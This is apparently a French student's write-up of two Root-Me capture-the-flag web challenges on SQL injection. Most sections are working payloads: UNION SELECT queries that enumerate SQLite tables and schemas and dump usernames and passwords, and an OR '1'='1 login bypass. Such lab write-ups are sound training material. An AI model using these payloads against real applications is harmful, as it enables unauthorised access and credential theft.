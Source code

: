 **RootMe**
# SQL injection - String

URL : http://challenge01.root-me.org/web-serveur/ch19

Etudiant | Date | Sujet
:---|:---|:---
Hamza Terir | 23/11/2022 | SQLi


### Erreur SQL
```
admin'
```

![Pasted image 20221123135349](https://user-images.githubusercontent.com/122984033/213180205-c2af302a-74df-4617-a038-892e857cdc4a.png)

### Point d'injection

Le point d'injection est dans la barre de recherche qui est accessible à cette url :

http://challenge01.root-me.org/web-serveur/ch19/


![Pasted image 20230118141543](https://user-images.githubusercontent.com/122984033/213181856-63ba1da1-f3f7-4250-8f57-11e4e1fb3a1f.png)

## Exploitation

### Requête True
```sql
' OR 1=1
```

### Nombre de colonnes (2)
```sql
' UNION SELECT null,null -- 
```

#### Informations

### Version
```sql
' UNION SELECT null,sqlite_version() -- 
```

**Database version** : SQLite3 (3.31.1)

![Pasted image 20221123142951](https://user-images.githubusercontent.com/122984033/213182251-f8688658-98f8-41ff-adef-d2c3e06f2f4e.png)

### Tables
```sql
' UNION SELECT null,name FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123142924](https://user-images.githubusercontent.com/122984033/213182410-affcd2ee-e013-4412-ae5f-8f2898b5c88e.png)

### Schema Tables
```sql
' UNION SELECT null,sql FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123143111](https://user-images.githubusercontent.com/122984033/213182667-6599c824-048b-408f-a0e1-fa306d465e06.png)

### Identifiants
```sql
' UNION SELECT null,null OR 1=1

' UNION SELECT username,password FROM users -- 
```

## Flag

![Pasted image 20221123145118](https://user-images.githubusercontent.com/122984033/213182786-d5d61278-33ad-4465-b3f2-1719f0c7c521.png)


# SQL injection - Authentication

URL : http://challenge01.root-me.org/web-serveur/ch19

## Reconnaissance
### Detection

```sql
admin
admin'
```

![Pasted image 20230118143012](https://user-images.githubusercontent.com/122984033/213186831-23504ec9-2705-4345-9044-0ae77b53aace.png)

Requête POST /web-serveur/ch9/
```javascript
login=admin&password=admin%27
```

![Pasted image 20230118143340](https://user-images.githubusercontent.com/122984033/213187295-70abea90-85fe-48b5-baa8-ef888b7085e2.png)

On obtient l'erreur SQL de lase base de données SQlite3 :

![Pasted image 20230118143526](https://user-images.githubusercontent.com/122984033/213187431-b7e42334-f087-405a-a1f4-d2f3df818305.png)

## Exploitation
### Requête true

Requête POST avec la charge utile dans le point d'injection qui correspond à la partie password dans le formulaire :
```sql
login=admin&password=admin' OR '1'='1
```

![Pasted image 20230118143728](https://user-images.githubusercontent.com/122984033/213187676-ad879ddd-e43f-44c8-90e8-9ea310198293.png)

On obtient un accès au compte user1 :

![Pasted image 20230118143835](https://user-images.githubusercontent.com/122984033/213187815-f1fdc674-08df-4376-a86e-a1cd3565457c.png)









